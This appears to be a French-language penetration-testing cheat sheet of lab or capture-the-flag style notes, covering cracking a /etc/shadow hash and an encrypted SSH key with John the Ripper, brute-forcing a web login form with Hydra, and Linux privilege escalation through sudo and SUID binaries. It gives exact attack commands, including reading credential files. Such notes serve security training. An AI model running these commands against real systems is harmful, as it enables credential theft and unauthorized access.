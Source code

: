 # 1) Cracker un mot de passe chiffré
1. On obtient un mot de passe présent dans /etc/shadow, on le récupère dans un fichier root.hash
```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```
2. On crack le hash via john
```
john --wordlist=/chemin/vers/wordlist root.hash
```

# 2) Cracker un clef RSA chiffré
1. On met la main sur une cléf RSA chiffré, on la récupère et on la mets dans un fichier id_rsa
2. On converti la clé RSA chiffrée en format John-readable
```
ssh2john id_rsa > id_rsa.hash
```
3. On crack le hash avec John 
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

# 3) Bruteforce un formulaire web
## Hydra 
1. Noté les noms des balises username et password
2. Vérifier si il s'agit d'une méthode POST ou GET
3. Récuperer message d'erreur 
4. Récupérer l'URL de la page 
5. Ne pas modifier ^USER^ et ^PASS^ 
6. Modifier le login, la méthode, l'URL d'accès, Le message d'erreur
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.170.167 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
# 4) Elevation de privilèges Linux
## Sudo 
* **Base de la faille** : L'utilisation inappropriée de la commande `sudo` par les administrateurs système peut donner à certains utilisateurs des privilèges qu'ils ne devraient pas avoir. Si un utilisateur a le droit d'exécuter une commande ou un binaire avec des privilèges `root` sans restriction, cela peut être exploité.

* **Comment c'est possible** : Disons qu'un utilisateur peut exécuter `vim` avec `sudo` sans mot de passe. Cela signifie qu'il peut éditer n'importe quel fichier en tant que `root` ou lancer un shell avec des droits `root`.
1. On regarde les commandes executables en sudo 
```
sudo -l
```
2. On cherche sur GTFObins les possibilités de la commande en tant que root pour :
	* Obtenir un shell root
	* Lire un fichier sensible : /etc/shadow
	* Modifier fichier sensible (crontab par exemple)
	* Déployer un reverse shell
	* Transfert de fichiers
## SUID
* **Base de la faille** : Les binaires avec le bit SUID permettent à l'exécutable d'être exécuté avec les droits du propriétaire du fichier plutôt qu'avec les droits de l'utilisateur qui l'exécute. Si un binaire vulnérable ou mal configuré a le bit SUID défini, cela peut être exploité.